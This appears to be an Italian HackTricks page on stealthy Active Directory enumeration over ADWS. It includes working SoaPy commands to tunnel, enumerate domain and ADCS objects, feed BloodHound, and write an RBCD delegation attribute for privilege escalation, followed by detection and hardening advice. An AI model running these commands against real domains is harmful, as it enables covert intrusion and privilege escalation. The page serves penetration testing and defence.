 # Active Directory Web Services (ADWS) Enumeration & Stealth Collection

{{#include ../../banners/hacktricks-training.md}}

## Che cos'è ADWS?

Active Directory Web Services (ADWS) è **abilitato per impostazione predefinita su ogni Domain Controller da Windows Server 2008 R2** e ascolta su TCP **9389**. Nonostante il nome, **non è coinvolto alcun HTTP**. Invece, il servizio espone dati in stile LDAP attraverso un insieme di protocolli di incapsulamento proprietari .NET:

* MC-NBFX → MC-NBFSE → MS-NNS → MC-NMF

Poiché il traffico è incapsulato all'interno di questi frame SOAP binari e viaggia su una porta poco comune, **l'enumerazione tramite ADWS è molto meno probabile che venga ispezionata, filtrata o firmata rispetto al traffico LDAP classico/389 & 636**. Per gli operatori questo significa:

* Ricognizione più furtiva – I team Blue spesso si concentrano sulle query LDAP.
* Libertà di raccogliere da **host non Windows (Linux, macOS)** tunnelando 9389/TCP attraverso un proxy SOCKS.
* Gli stessi dati che otterresti tramite LDAP (utenti, gruppi, ACL, schema, ecc.) e la possibilità di eseguire **scritture** (ad es. `msDs-AllowedToActOnBehalfOfOtherIdentity` per **RBCD**).

> NOTA: ADWS è utilizzato anche da molti strumenti GUI/PowerShell RSAT, quindi il traffico può mescolarsi con l'attività amministrativa legittima.

## SoaPy – Client Python Nativo

[SoaPy](https://github.com/logangoins/soapy) è una **re-implementazione completa dello stack di protocolli ADWS in puro Python**. Crea i frame NBFX/NBFSE/NNS/NMF byte per byte, consentendo la raccolta da sistemi simili a Unix senza toccare il runtime .NET.

### Caratteristiche Principali

* Supporta **il proxy attraverso SOCKS** (utile da impianti C2).
* Filtri di ricerca a grana fine identici a LDAP `-q '(objectClass=user)'`.
* Operazioni di **scrittura** opzionali ( `--set` / `--delete` ).
* Modalità di output **BOFHound** per l'ingestione diretta in BloodHound.
* Flag `--parse` per abbellire i timestamp / `userAccountControl` quando è necessaria la leggibilità umana.

### Installazione (host operatore)
```bash
python3 -m pip install soapy-adws   # or git clone && pip install -r requirements.txt
```
## Stealth AD Collection Workflow

Il seguente flusso di lavoro mostra come enumerare **oggetti di dominio e ADCS** tramite ADWS, convertirli in JSON di BloodHound e cercare percorsi di attacco basati su certificati – tutto da Linux:

1. **Tunnel 9389/TCP** dalla rete target al tuo box (ad esempio tramite Chisel, Meterpreter, SSH dynamic port-forward, ecc.). Esporta `export HTTPS_PROXY=socks5://127.0.0.1:1080` o usa `--proxyHost/--proxyPort` di SoaPy.

2. **Raccogli l'oggetto del dominio radice:**
```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@10.2.10.10 \
-q '(objectClass=domain)' \
| tee data/domain.log
```
3. **Raccogliere oggetti correlati a ADCS dalla Configuration NC:**
```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@10.2.10.10 \
-dn 'CN=Configuration,DC=ludus,DC=domain' \
-q '(|(objectClass=pkiCertificateTemplate)(objectClass=CertificationAuthority) \\
(objectClass=pkiEnrollmentService)(objectClass=msPKI-Enterprise-Oid))' \
| tee data/adcs.log
```
4. **Converti in BloodHound:**
```bash
bofhound -i data --zip   # produces BloodHound.zip
```
5. **Carica il ZIP** nell'interfaccia grafica di BloodHound ed esegui query cypher come `MATCH (u:User)-[:Can_Enroll*1..]->(c:CertTemplate) RETURN u,c` per rivelare i percorsi di escalation dei certificati (ESC1, ESC8, ecc.).

### Scrittura di `msDs-AllowedToActOnBehalfOfOtherIdentity` (RBCD)
```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@dc.ludus.domain \
--set 'CN=Victim,OU=Servers,DC=ludus,DC=domain' \
msDs-AllowedToActOnBehalfOfOtherIdentity 'B:32:01....'
```
Combina questo con `s4u2proxy`/`Rubeus /getticket` per una completa **Resource-Based Constrained Delegation** chain.

## Rilevamento e Indurimento

### Logging Verboso di ADDS

Abilita le seguenti chiavi di registro sui Domain Controllers per evidenziare ricerche costose / inefficienti provenienti da ADWS (e LDAP):
```powershell
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Diagnostics' -Name '15 Field Engineering' -Value 5 -Type DWORD
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters' -Name 'Expensive Search Results Threshold' -Value 1 -Type DWORD
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters' -Name 'Search Time Threshold (msecs)' -Value 0 -Type DWORD
```
Gli eventi appariranno sotto **Directory-Service** con il filtro LDAP completo, anche quando la query è arrivata tramite ADWS.

### Oggetti SACL Canary

1. Crea un oggetto fittizio (ad es. utente disabilitato `CanaryUser`).
2. Aggiungi un **Audit** ACE per il principale _Everyone_, auditato su **ReadProperty**.
3. Ogni volta che un attaccante esegue `(servicePrincipalName=*)`, `(objectClass=user)` ecc., il DC emette **Event 4662** che contiene il vero SID dell'utente – anche quando la richiesta è proxy o proviene da ADWS.

Esempio di regola predefinita di Elastic:
```kql
(event.code:4662 and not user.id:"S-1-5-18") and winlog.event_data.AccessMask:"0x10"
```
## Riepilogo degli Strumenti

| Scopo | Strumento | Note |
|-------|-----------|------|
| Enumerazione ADWS | [SoaPy](https://github.com/logangoins/soapy) | Python, SOCKS, lettura/scrittura |
| Ingestione BloodHound | [BOFHound](https://github.com/bohops/BOFHound) | Converte i log di SoaPy/ldapsearch |
| Compromissione Cert | [Certipy](https://github.com/ly4k/Certipy) | Può essere proxy attraverso lo stesso SOCKS |

## Riferimenti

* [SpecterOps – Assicurati di usare SOAP(y) – Una guida per operatori alla raccolta stealth di AD usando ADWS](https://specterops.io/blog/2025/07/25/make-sure-to-use-soapy-an-operators-guide-to-stealthy-ad-collection-using-adws/)
* [SoaPy GitHub](https://github.com/logangoins/soapy)
* [BOFHound GitHub](https://github.com/bohops/BOFHound)
* [Microsoft – Specifiche MC-NBFX, MC-NBFSE, MS-NNS, MC-NMF](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nbfx/)

{{#include ../../banners/hacktricks-training.md}}
